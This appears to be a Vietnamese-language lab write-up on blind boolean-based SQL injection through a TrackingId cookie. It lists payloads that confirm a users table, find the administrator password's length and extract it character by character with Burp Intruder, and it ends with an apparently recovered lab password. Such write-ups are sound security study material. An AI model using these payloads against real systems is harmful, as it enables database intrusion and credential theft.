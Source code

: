 - Dùng Burp, kiểm tra trong header giá trị TrackId, chuyển qua Repeater để sửa TrackId đó
- Vì giá trị trong TrackId là luôn đúng rồi nên khi thêm điều kiện để thử thì có thể kết nối bằng AND

- ' AND '1'='1
Có chữ welcome back

- ' AND '1'='2
Mất chữ welcome back

- ' AND (SELECT 'a' FROM users LIMIT 1)='a
    + Câu này dùng để ktra xem có bảng `users` và có ít nhất 1 hàng hay không, nếu có thì trả về 'a' và khi 'a'='a' thì kết quả cũng là True. Hiện WCBack
    + Nếu không có bảng `users` thì không xuất hiện WCBack
    + Nếu có bảng users nhma ko có hàng nào thì nó sẽ trả về NULL và kết quả là False.
    + LIMIT 1: dùng để chỉ lấy duy nhất 1 hàng, khi không có, nếu bảng `users` có nhiều hàng thì nó sẽ trả về nhiều giá trị 'a', và để so với đơn trị 'a' thì sẽ sai.

- ' AND (SELECT 'a' FROM users WHERE username = 'administrator')='a

- ' AND (SELECT 'a' FROM users WHERE username = 'administrator' AND LENGTH(password) > 10)='a
- ' AND (SELECT 'a' FROM users WHERE username = 'administrator' AND LENGTH(password) = 20)='a

- ' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
/*
    SUBSTRING(string, start, length)
    SUBSTRING('abcdefg', 3, 2) sẽ trả về 'cd'. (Bắt đầu từ vị trí thứ 3, lấy 2 ký tự).
    SUBSTRING('Hello world', 7, 5) sẽ trả về 'world'.
*/

- rồi đẩy nó vào Intruder để test từng chữ
ppylw9n6f9kzxs5m4oo5
